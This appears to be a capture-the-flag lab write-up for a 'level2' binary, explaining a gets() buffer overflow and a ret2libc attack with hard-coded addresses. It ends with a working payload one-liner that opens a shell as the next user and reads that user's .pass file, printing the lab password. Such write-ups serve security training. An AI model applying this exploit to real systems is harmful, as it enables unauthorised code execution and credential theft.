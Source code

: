 # Level2

> For introductory information on this operating system and binary securities, check [here](./Ressources/README.md).

Let's see what does the binary do.

```shell
  $> ./level2
  randomstring
  randomstring
```

> It looks like the programs only prints what you write on standard input.

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./Ressources/gdb.md)). Like the previous level, this one uses `gets()`, so we can do a **buffer overflow** once more but this time there is no planned way to spawn a shell inside the program.

After some research we find that since **ASLR** is off, we could do what's called a [`ret2libc attack`](https://shellblade.net/files/docs/ret2libc.pdf). For this to work we only need to find:

- The buffer offset.
- The Addresses of `system()`, `exit()` and one `ret` instruction.
- The Address of the string `/bin/sh`.

Once we get those, we use the buffer overflow to override the list of instruction stored in **EIP register** once again to execute a `system("/bin/sh"); exit();` basically. Thanks to our `gdb` analysis we get:

- Offset is **80**.
- `ret` instruction: `0x0804853e`.
- `system()` function: `0xb7e6b060`.
- `exit()` function: `0xb7e5ebe0`.
- `/bin/sh` string: `0xb7f8cc58`.

The attack is constructed as follow: first induce the overflow then trigger a ret instruction followed by a call to `system()` then `exit()` and finally `/bin/sh` by pushing their addresses in this order on top of EIP. Using the `cat` trick like in previous level, we'll get a working shell running as `level3`.

```shell
  $> (python -c "print '\x90' * 80 + '\x08\x04\x85\x3e'[::-1] + '\xb7\xe6\xb0\x60'[::-1] + '\xb7\xe5\xeb\xe0'[::-1] + '\xb7\xf8\xcc\x58'[::-1]"; cat) | ./level2
  cat /home/user/level3/.pass
  492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

So next user credentials pair is `level3:492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`.

Check [here](./source.c) for reproduction source-code of this binary.